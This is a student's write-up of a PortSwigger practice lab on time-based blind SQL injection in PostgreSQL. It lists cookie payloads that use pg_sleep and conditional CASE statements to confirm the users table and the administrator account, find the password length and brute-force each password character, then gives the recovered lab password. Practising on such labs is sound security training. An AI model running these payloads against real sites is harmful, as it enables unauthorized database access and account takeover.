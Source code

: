 
### Blind SQL injection with time delays and information retrieval : PRACTITIONER

---

We will be injecting in the `TrackingId` cookie, testing the time delay blind injection.

Test the injection point assuming PostgreSQL.
```
' || pg_sleep(10) --
```
- The response completes after 10 seconds, therefore, it is vulnerable to time delay injection.

Check for the presence of the `users` table using a time delay.
```
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users --
```
- See that the response comes after 10 seconds, implying that the users table exists.

Now checking for the administrator username.
```
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users WHERE username='administrator') -- 
```
- Response comes after 10 seconds, hence, the administrator username exists.

>Using BURPSUITE INTRUDER spider attack with the placeholder at the length, we can enumerate the length of the password.

```
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users WHERE username='administrator' AND LENGTH(password)>20 ) -- 
```
- See that at 20, it sends the response immediately, meaning that it is 20 characters long.

> Now, using the BURPSUITE INTRUDER cluster bomb attack, we can obtain the characters of each index in the password.

```
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users WHERE username='administrator' AND  SUBSTRING(password,1,1) ='a') -- 
```

Similar to [[Portswigger/SQL Injection/Lab 7]], brute force the password with the indices from 1-20 and the characters from a-z and 0-9.
- Check the response received column, those with the delay have the correct values.

1 - y
2 - v
3 - l
4 - r
5 - z
6 - p
7 - w
8 - k
9 - 9
10 - v
11 - j
12 - 4
13 - a
14 - 6
15 - g
16 - n
17 - 1
18 - j
19 - d
20 - k

Submit the password and login as admin to complete lab.

---

